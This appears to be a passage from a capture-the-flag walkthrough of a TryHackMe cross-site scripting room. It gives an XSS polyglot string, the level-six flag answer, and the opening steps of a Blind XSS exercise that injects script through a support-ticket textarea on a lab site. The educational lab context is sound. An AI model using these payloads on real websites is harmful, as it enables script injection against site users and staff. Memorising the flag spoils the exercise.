 ```
Now when you click the enter button, you'll get an alert popup with the string THM. And then, you'll get a confirmation message that your payload was successful; with this being the last level, you'll receive a flag that can be entered below.

Polyglots:



An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.


```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

---

What is the flag you received from level six?
Answer : THM{XSS_MASTER}

Task 8  Practical Example (Blind XSS)
For the last task, we will go over a Blind XSS vulnerability. Ensure you terminate the previous machine and then click on the green Start Machine button on the right to load the Acme IT Support website. You’ll need to use the AttackBox using the blue button at the top of the page. Once loaded, open the link below inside the AttackBox’s Firefox browser to view the target website.

https://10-10-204-39.p.thmlabs.com

Click on the Customers tab on the top navigation bar and click the "Signup here" link to create an account. Once your account gets set up, click the Support Tickets tab, which is the feature we will investigate for weaknesses. 

Try creating a support ticket by clicking the green Create Ticket button, enter the subject and content of just the word test and then click the blue Create Ticket button. You'll now notice your new ticket in the list with an id number which you can click to take you to your newly created ticket. 

Like task three, we will investigate how the previously entered text gets reflected on the page. Upon viewing the page source, we can see the text gets placed inside a textarea tag.


![img](/assets/img/cross-site12.png)

Let's now go back and create another ticket. Let's see if we can escape the textarea tag by entering the following payload into the ticket contents:
```
</textarea>test
```
Again, opening the ticket and viewing the page source, we've successfully escaped the textarea tag.

![img](/assets/img/cross-site13.png)

Let's now expand on this payload to see if we can run JavaScript and confirm that the ticket creation feature is vulnerable to an XSS attack. Try another new ticket with the following payload:
```
 </textarea><script>alert('THM');</script>
```
Now when you view the ticket, you should get an alert box with the string THM. We're going to now expand the payload even further and increase the vulnerabilities impact. Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript. 

```